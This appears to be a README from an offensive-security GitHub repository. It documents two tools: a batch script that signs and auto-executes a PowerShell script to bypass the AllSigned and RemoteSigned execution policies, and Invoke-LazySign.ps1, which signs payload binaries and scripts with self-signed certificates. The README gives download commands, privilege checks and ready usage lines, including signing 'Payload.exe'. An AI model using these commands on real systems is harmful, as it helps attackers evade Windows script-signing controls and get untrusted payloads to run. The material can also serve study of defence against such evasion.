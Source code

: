 ## Module Name
   <b><i>PSscriptSigning.bat</i></b>

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|PSscriptSigning|Signs one PS1 script ( **certlm.msc - certificate** ) + Auto-Execute it ?<br />This allow us to execute our PS1 cmdlet even if set-executionpolicy<br />its set to only run signed cmdlets [( AllSigned, RemoteSigned )](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7.2)|Administrator|[PSscriptSigning.bat](https://github.com/r00t-3xp10it/redpill/blob/main/bypass/PSscriptSigning.bat)<br />[DeletePSscriptSignning.bat](https://github.com/r00t-3xp10it/redpill/blob/main/bypass/DeletePSscriptSignning.bat)<br />Dependencies: LanManServer|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bypass/PSscriptSigning.bat" -OutFile "PSscriptSigning.bat"
```

<br />

**prerequesites checks:**
```powershell
#Make sure LanManServer its running
[bool](Get-Service -Name LanManServer)

#Make sure the correct (AllSigned|RemoteSigned) execution policys are set
[bool]((Get-ExecutionPolicy -Scope CurrentUser) -iMatch "^(AllSigned|RemoteSigned)$")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")
```

```powershell
# Execute the next cmdline to: auto-execute the PS1 after PSscriptSigning.bat have sign it ?
[optional] Add-Content -Path "PSscriptSigning.bat" -Value "`npowershell -W 1 -File %PSsignPath%" -Force

# Execute the batch script that signs our PS1 cmdlet
.\PSscriptSigning.bat
```


**check if (Subject: My_Code_Signing_Certificate) certificate exists:**
```powershell
[manual] Certlm.msc
[auto] $List = @("Root","My");ForEach($Item in $List){Get-ChildItem Cert:\LocalMachine\$Item|Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'}}
```

<br /><br />

**Delete certificate from store**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bypass/DeletePSscriptSignning.bat" -OutFile "DeletePSscriptSignning.bat"
```

```powershell
.\DeletePSscriptSignning.bat
```

**check if (Subject: My_Code_Signing_Certificate) certificate was deleted:**
```powershell
[manual] Certlm.msc
[auto] Get-ChildItem Cert:\LocalMachine\Root | Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'}
```

<br />

### Final Notes
```
This BATCH script can sign\execute our cmdlet even if Set-ExecutionPolicy its set to 'AllSigned, RemoteSigned'.
Because executing BATCH scripts its NOT affected by 'Set-ExecutionPolicy' target settings, this allow us to
Sign the cmdlet and then auto-execute it bypassing 'Set-ExecutionPolicy AllSigned,RemoteSigned' restrictions.

The PSscriptSigning.bat script can only be used to sign ONE cmdlet at a time, because it uses
the same Subject Name everytime it signs one cmdlet ( Subject: My_Code_Signing_Certificate )

```

Article: https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/working-with-certificates.md

<br /><br />

## Module Name
   <b><i>Invoke-LazySign.ps1</i></b>

|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-LazySign](https://github.com/r00t-3xp10it/redpill/blob/main/lib/CertSign_PS1/Invoke-LazySign.ps1)|Sign a Windows binary\Cmdlet with a self-signed certificate|Administrator|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/Invoke-LazySign.png)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/SuperWork.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/Invoke-LazySign.ps1" -OutFile "Invoke-LazySign.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")

#Make sure all the required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name "PKI").ExportedCmdlets|findstr /C:"New-SelfSignedCertificate")
[bool]((Get-Module -ListAvailable -Name "Microsoft.PowerShell.Security").ExportedCommands|findstr /C:"Set-AuthenticodeSignature")
```


```powershell
Get-Help .\Invoke-LazySign.ps1 -full

#Query for ALL certificates in 'Cert:\LocalMachine\My | Cert:\LocalMachine\Root' Store
.\Invoke-LazySign.ps1 -Action "query" -Subject "[a-z 0-9]"

#Query for ALL 'LazySign' certs in 'Cert:\LocalMachine\My | Cert:\LocalMachine\Root' Store
.\Invoke-LazySign.ps1 -Action "query" -Subject "LazySign"

#Sign binary (Payload.exe) with crafted certificate (Subject: LazySign-4zrH Expires: 6 months)
.\Invoke-LazySign.ps1 -Action 'Sign' -Subject "LazySign" -Target "$pwd\Payload.exe" -NotAfter "6"

#Sign binary (Payload.ps1) with crafted certificate (Subject: LazySign-4zrH Expires: 3 months)
.\Invoke-LazySign.ps1 -Action 'sign' -Subject "LazySign" -Target "Payload.ps1" -NotAfter "3"

#Delete the 'LazySign-4zrH' certificate from windows store
.\Invoke-LazySign.ps1 -Action 'del' -Subject "LazySign-4zrH"
```

<br />

## Final Notes
```
Do 'NOT' edit the signed binary\cmdlet after its being signed, or else the certificate code block
inside signed binary\cmdlet will brake, rending the signed binary\cmdlet as 'NOT-SIGNED' again.

Do 'NOT' use Regex when invoking -Action 'del' to delete certificates from the Windows Store.
Because Invoke-LazySign.ps1 cmdlet uses recursive search by default (deleting multiple certs)

This cmdlet will 'NOT' sign our script.ps1 if 'Set-ExecutionPolicy AllSigned,RemoteSigned' are set.
Because ExecutionPolicy will prevent this cmdlet from running. If you wish to bypass the restrictions
then execute the 'PSscriptSigning.bat' batch module contained in this same repository (the first module)

The PSscriptSigning.bat script can only be used to sign 'ONE' cmdlet at a time, because it uses
the same Subject Name everytime it signs one cmdlet ( Subject: My_Code_Signing_Certificate )
```

Article: https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/working-with-certificates.md
